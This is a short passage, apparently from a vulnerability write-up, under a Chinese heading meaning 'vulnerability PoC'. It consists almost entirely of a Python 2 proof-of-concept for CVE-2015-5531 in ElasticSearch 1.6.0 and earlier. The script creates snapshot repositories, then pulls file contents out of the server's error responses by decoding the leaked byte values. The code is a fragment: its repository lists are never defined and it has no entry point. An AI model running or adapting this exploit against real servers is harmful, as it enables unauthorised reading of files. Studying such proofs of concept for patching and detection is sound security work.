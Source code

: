 ## 4.&emsp;漏洞POC

```python
#!/usr/bin/env python
# -*- coding:utf8 -*-
"""
PoC for CVE-2015-5531
Affects ElasticSearch 1.6.0 and prior
"""
import re
import requests
import urllib
import argparse
import traceback
import termcolor


def colorize_red(string):
    """
    :param string:
    :return
    """
    return termcolor.colored(string, 'red')


def colorize_green(string):
    """
    :param string:
    :return:
    """
    return termcolor.colored(string, 'green')


def create_repos(base_url):
    """
    :param base_url:
    :return: None
    """
    for index, repo_name in enumerate(REPO_NAME_LST):

        url = "{0}{1}".format(base_url, repo_name)
        req = requests.post(url, json=DATA_REPO_LST[index])

        if "acknowledged" in req.json():
            print colorize_green("repository {0}: create success".format(repo_name))


def grab_file(vuln_url):
    """
    :param xplurl:
    :return:
    """

    req = requests.get(vuln_url)
    if req.status_code == 400:
        data = req.json()
        extrdata = re.findall(r'\d+', str(data['error']))
        decoder = bytearray()
        for i in extrdata[2:]:
            decoder.append(int(i))
        print colorize_green(decoder)


```